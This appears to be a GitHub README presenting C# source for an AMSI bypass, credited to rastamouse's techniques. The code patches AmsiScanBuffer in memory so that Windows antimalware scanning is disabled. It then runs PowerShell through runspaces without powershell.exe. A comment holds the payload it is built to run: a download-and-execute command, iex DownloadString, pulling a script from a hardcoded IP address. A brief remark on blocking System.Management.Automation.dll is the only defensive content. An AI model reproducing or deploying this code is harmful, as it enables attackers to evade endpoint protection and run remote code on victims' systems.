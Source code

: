 
The AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe. in conclusion if someone had asked me that how Do we prevent from powershell base attack.I woulnd have recommend blocking System.Management.Automation.dll like I mention above The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command.


**This AMSI Patching Techniquie is heavy reliance on rastamouse's Techniques**


```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace Gawdawpalin 
{
    class Program
    {
        static void Main(string[] args)
        {

            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Shwegugyi.MeMe();

        }

        class Shwegugyi 

        {
            //$OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('https://54.18.24.199:7775/download/Bagan.ps1')"
            //[System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))
            public static string Command = System.Text.Encoding.UTF8.GetString(System.Convert.FromBase64String(@"Base64 Data"));
            
            public static void MeMe()
            {
                InitialSessionState p = InitialSessionState.CreateDefault();
                Runspace rspace = RunspaceFactory.CreateRunspace(p);
                rspace.Open();
                PowerShell Evil = PowerShell.Create();
                Evil.Runspace = rspace;
                Evil.AddScript(Command);
                Evil.Invoke();
                rspace.Close();
            }
        }

        //Importing The Necessary WInAPI to Load the LoadLibrary other related to system function.

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```
